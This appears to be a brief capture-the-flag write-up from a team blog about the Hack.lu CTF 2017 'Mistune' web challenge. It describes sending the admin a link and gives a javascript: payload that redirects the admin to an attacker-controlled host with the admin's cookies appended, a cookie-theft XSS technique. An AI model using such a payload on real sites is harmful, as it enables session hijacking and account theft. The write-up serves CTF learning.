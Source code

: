 ```yaml
---
layout: post
title: Hack.lu CTF 2017 - Mistune
categories: ctf_hacklu17
keywords: "web"
comments: true
authors:
    - chq-matteo
---
```




1. We can send a message to the admin.
2. The admin clicks on the links and we have to steal his cookies.

The idea is to use javascript to redirect the admin to a website we control.  
We used one of the many free hosting sites
```js
<javascript:document.location='hello.myserver.com/?cookie='+document.cookies>
````

